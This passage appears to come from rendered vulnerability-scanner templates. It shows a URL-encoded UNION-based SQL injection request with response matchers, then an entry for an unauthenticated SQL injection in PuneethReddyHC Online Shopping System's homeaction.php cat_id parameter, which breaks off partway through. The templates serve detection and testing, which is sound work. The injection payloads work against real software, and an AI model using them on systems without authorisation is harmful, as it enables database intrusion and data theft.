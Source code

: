 ### Step - 2

```
GET /views/?v=USER&ID=1%20UNION%20ALL%20SELECT%20NULL%2CNULL%2CNULL%2Cmd5({{num}})%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%3B--%20- HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. {{md5(num)}}

**Type - status**

- status
  1. 200

---

# PuneethReddyHC Online Shopping System homeaction.php SQL Injection

## Description

- An unauthenticated SQL injection vulnerability exists in PuneethReddyHC Online Shopping System through the /homeaction.php cat_id parameter. Using a post request does not sanitize the user input.
- severity - critical
- tags - cve,cve2021,sqli,injection

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/homeaction.php
  - cat_id=4'&get_seleted_Category=1

### Matchers

**Type - word**

- words
  1. text/html
- part - header

**Type - word**
